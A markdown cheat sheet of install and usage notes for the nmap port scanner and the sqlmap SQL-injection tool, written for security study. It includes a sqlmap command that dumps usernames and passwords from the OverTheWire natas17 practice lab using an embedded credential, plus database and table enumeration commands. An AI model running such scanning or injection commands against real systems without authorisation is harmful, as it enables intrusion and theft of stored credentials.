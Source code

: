 > This is to be used by programs by calling standard C APIs

### Install
```bash
$ sudo apt-get install nmap # linux
$ # for Mac
PS> curl https://nmap.org/dist/nmap-7.70-win32.zip ; expand-archive -path .\nmap-7.70-win32.zip -destinationpath . # for Windows with PowerShell
# You should also install Npcap (https://nmap.org/npcap/#download)
```

> `nmap` will install an updated version of `/etc/services` in `/usr/share/nmap/nmap-services`.

### Usage
```bash
# {hostname} can be scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
$ nmap {hostname} # basic nmap shows IP, if host is up and scan 1000 most common ports
Nmap scan report for scanme.nmap.org (45.33.32.156). Host is up (0.078s latency).
Not shown: 996 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
9929/tcp  open  nping-echo
31337/tcp open  Elite
$ nmap {h} -O # adding OS detection
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 20 hops
$ nmap {h} -p 40000-45000 # scan from ports 40000 to 45000
```

### References

- https://www.digitalocean.com/community/tutorials/how-to-use-nmap-to-scan-for-open-ports-on-your-vps

## sqlmap

### Install
Requires Python 2.*
```bash
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
$ cd sqlmap-dev
$ python2 ./sqlmap.py --auth-cred="natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" --auth-type=BASIC -u "http://natas17.natas.labs.overthewire.org/index.php?username=natas17" --level 3 --dbms="MySQL 5.5" -p username --technique T -D natas17 -T users -C username,password --dump
```

### Usage
Find an injectable GET/POST param, such as `?user=love`.
```bash
$ sqlmap -x "url.com/sitemap.xml" # sitemap
$ sqlmap -d "mysql://admin:admin@192.168.21.17:3306/testdb" # SQL connection string for direct access
$ sqlmap -u "url.com?user=love" -p user # url with param
$ sqlmap -u "url.com?user=love" --auth-type=BASIC --auth-cred="clear_user:clear_pwd" # basic auth
$ sqlmap -u "url.com?user=love" --dbms="MySQL 5.5" # set the DNMS to MySQL to test only against it
$ sqlmap -u "url.com?user=love" -p user --level 3 --dbs # find databases
available databases [2]:
[*] information_schema
[*] pentest_me
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me --tables # find tables
```